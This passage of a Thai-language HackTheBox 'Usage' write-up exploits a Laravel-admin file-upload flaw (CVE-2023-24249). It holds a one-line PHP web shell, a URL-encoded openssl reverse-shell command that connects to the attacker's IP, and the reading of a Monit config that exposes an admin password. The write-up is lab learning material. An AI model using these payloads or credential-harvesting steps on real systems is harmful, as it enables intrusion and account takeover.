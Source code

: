 จากข้อมูลข้างต้นทำให้ทราบได้ว่าเวอร์ชันดังกล่าวมีช่องโหว่ [CVE-2023-24249](https://security.snyk.io/vuln/SNYK-PHP-ENCORELARAVELADMIN-3333096)  

สร้างไฟล์สำหรับ upload โดยตั้งชือเป็น ice.php.jpg
```php
<?php system($_REQUEST['cmd']); ?>
```
จากนั้นทำการ intercep แล้วเปลี่ยน filename เป็น ice.php 

![[Challenge/HTB Challenge/Usage/IMG/017.png]]
ซึ่งจะสามารถ upload ได้ 
![[Challenge/HTB Challenge/Usage/IMG/016.png]]

![[Challenge/HTB Challenge/Usage/IMG/018.png]]

# Shell as dash 

```htp
http://admin.usage.htb/uploads/images/ice.php?cmd=mkfifo%20%2Ftmp%2Fs%3B%20%2Fbin%2Fsh%20-i%20%3C%20%2Ftmp%2Fs%202%3E%261%20|%20openssl%20s_client%20-quiet%20-connect%2010.10.14.34%3A443%20%3E%20%2Ftmp%2Fs%3B%20rm%20%2Ftmp%2Fs
```

![[Challenge/HTB Challenge/Usage/IMG/019.png]]


# Shell as xander

หากสำรวจใน home ของ dash จะพบว่ามีไฟล์ .monit อยู่จำนวนมาก​ซึ่งหากหาข้อมูลเพิ่มเติมจะพบว่าเป็น **Monit** ซึ่งเป็นเครื่องมือระบบสำหรับการจัดการและตรวจสอบ (monitor) เครื่อง Unix/Linux โดยเฉพาะ 

![[Challenge/HTB Challenge/Usage/IMG/020.png]]

```bash
dash@usage:~$ cat .monitrc
cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
dash@usage:~$ 

```